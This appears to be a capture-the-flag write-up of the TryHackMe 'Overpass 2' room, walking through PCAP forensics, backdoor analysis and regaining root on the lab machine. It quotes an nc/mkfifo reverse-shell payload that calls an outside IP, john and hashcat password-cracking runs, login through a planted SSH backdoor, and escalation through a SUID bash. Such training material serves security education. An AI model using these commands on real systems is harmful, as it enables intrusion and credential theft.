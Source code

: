 ```yaml
---
title: "TryHackMe - Overpass 2 - Hacked"
categories:
  - TryHackMe
tags:
  - writeup
  - tryhackme
  - enumeration
  - cron
---
```

Overpass has been hacked! Can you analyse the attacker's actions and hack back in?

## Forensics - Analyse the PCAP 
- What was the URL of the page they used to upload a reverse shell? 

    <a href="/assets/images/tryhackme/overpass2/1.png"><img src="/assets/images/tryhackme/overpass2/1.png"></a>

    It's `development`.

- What payload did the attacker use to gain access?

    <a href="/assets/images/tryhackme/overpass2/2.png"><img src="/assets/images/tryhackme/overpass2/2.png"></a>

    It's `exec("rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 192.168.170.145 4242 >/tmp/f")`.

- What password did the attacker use to privesc?

    <a href="/assets/images/tryhackme/overpass2/3.png"><img src="/assets/images/tryhackme/overpass2/3.png"></a>

    It's `whenevernoteartinstant`.

- How did the attacker establish persistence?

    <a href="/assets/images/tryhackme/overpass2/4.png"><img src="/assets/images/tryhackme/overpass2/4.png"></a>

    It's `https://github.com/NinjaJc01/ssh-backdoor`.

- Using the fasttrack wordlist, how many of the system passwords were crackable?

    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ john --wordlist=/usr/share/wordlists/fasttrack.txt hash 
    Using default input encoding: UTF-8
    Loaded 5 password hashes with 5 different salts (sha512crypt, crypt(3) $6$ [SHA512 128/128 AVX 2x])
    Cost 1 (iteration count) is 5000 for all loaded hashes
    Will run 6 OpenMP threads
    Press 'q' or Ctrl-C to abort, almost any other key for status
    secret12         (bee)
    abcd123          (szymex)
    1qaz2wsx         (muirland)
    secuirty3        (paradox)
    4g 0:00:00:00 DONE (2021-02-03 08:51) 16.00g/s 888.0p/s 4440c/s 4440C/s Spring2017..starwars
    Use the "--show" option to display all of the cracked passwords reliably
    Session completed
    ```

## Research - Analyse the code 
- What's the default hash for the backdoor?

    ```bash
    # From https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go
    bdd04d9bb7621687f5df9001f5098eb22bf19eac4c2c30b6f23efed4d24807277d0f8bfccb9e77659103d78c56e66d2d7d8391dfc885d0e9b68acd01fc2170e3
    ```

- What's the hardcoded salt for the backdoor?

    ```bash
    # From https://github.com/NinjaJc01/ssh-backdoor/blob/master/main.go
    1c362db832f3f864c8c2fe05f2002a05
    ```

- What was the hash that the attacker used? - go back to the PCAP for this!

    ```bash
    6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed
    ```

    <a href="/assets/images/tryhackme/overpass2/5.png"><img src="/assets/images/tryhackme/overpass2/5.png"></a>

- Crack the hash using rockyou and a cracking tool of your choice. What's the password?

    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ hashcat -m 1710 -a 0 hash /usr/share/wordlists/rockyou.txt
    hashcat (v6.1.1) starting...

    OpenCL API (OpenCL 1.2 pocl 1.6, None+Asserts, LLVM 9.0.1, RELOC, SLEEF, DISTRO, POCL_DEBUG) - Platform #1 [The pocl project]
    =============================================================================================================================
    * Device #1: pthread-Intel(R) Core(TM) i7-10700 CPU @ 2.90GHz, 2172/2236 MB (1024 MB allocatable), 6MCU

    Minimum password length supported by kernel: 0
    Maximum password length supported by kernel: 256
    Minimim salt length supported by kernel: 0
    Maximum salt length supported by kernel: 256

    Hashes: 1 digests; 1 unique digests, 1 unique salts
    Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
    Rules: 1

    Applicable optimizers applied:
    * Zero-Byte
    * Early-Skip
    * Not-Iterated
    * Single-Hash
    * Single-Salt
    * Raw-Hash
    * Uses-64-Bit

    ATTENTION! Pure (unoptimized) backend kernels selected.
    Using pure kernels enables cracking longer passwords but for the price of drastically reduced performance.
    If you want to switch to optimized backend kernels, append -O to your commandline.
    See the above message to find out about the exact limits.

    Watchdog: Hardware monitoring interface not found on your system.
    Watchdog: Temperature abort trigger disabled.

    Host memory required for this attack: 65 MB

    Dictionary cache hit:
    * Filename..: /usr/share/wordlists/rockyou.txt
    * Passwords.: 14344386
    * Bytes.....: 139921520
    * Keyspace..: 14344386

    6d05358f090eea56a238af02e47d44ee5489d234810ef6240280857ec69712a3e5e370b8a41899d0196ade16c0d54327c5654019292cbfe0b5e98ad1fec71bed:1c362db832f3f864c8c2fe05f2002a05:november16
                                                    
    Session..........: hashcat
    Status...........: Cracked
    Hash.Name........: sha512($pass.$salt)
    Hash.Target......: 6d05358f090eea56a238af02e47d44ee5489d234810ef624028...002a05
    Time.Started.....: Wed Feb  3 09:03:35 2021 (0 secs)
    Time.Estimated...: Wed Feb  3 09:03:35 2021 (0 secs)
    Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
    Guess.Queue......: 1/1 (100.00%)
    Speed.#1.........:  2274.9 kH/s (0.61ms) @ Accel:1024 Loops:1 Thr:1 Vec:4
    Recovered........: 1/1 (100.00%) Digests
    Progress.........: 18432/14344386 (0.13%)
    Rejected.........: 0/18432 (0.00%)
    Restore.Point....: 12288/14344386 (0.09%)
    Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
    Candidates.#1....: hawkeye -> telefoon

    Started: Wed Feb  3 09:03:18 2021
    Stopped: Wed Feb  3 09:03:36 2021
    ```

## Attack - Get back in! 
- The attacker defaced the website. What message did they leave as a heading?

    <a href="/assets/images/tryhackme/overpass2/6.png"><img src="/assets/images/tryhackme/overpass2/6.png"></a>

- What's the user flag?

    ```bash
    ┌──(kali㉿kali)-[~]
    └─$ ssh james@10.10.207.1 -p 2222
    james@10.10.207.1's password: 
    To run a command as administrator (user "root"), use "sudo <command>".
    See "man sudo_root" for details.

    james@overpass-production:/home/james/ssh-backdoor$
    james@overpass-production:/home/james/ssh-backdoor$ cd ..
    james@overpass-production:/home/james$ ls
    ssh-backdoor  user.txt  www
    james@overpass-production:/home/james$ cat user.txt 
    thm{REDACTED}
    ```

- What's the root flag?

    ```bash
    james@overpass-production:/home/james$ ./.suid_bash -p
    .suid_bash-4.4# whoami
    root
    .suid_bash-4.4# cat /root/root.txt
    thm{REDACTED}
    ```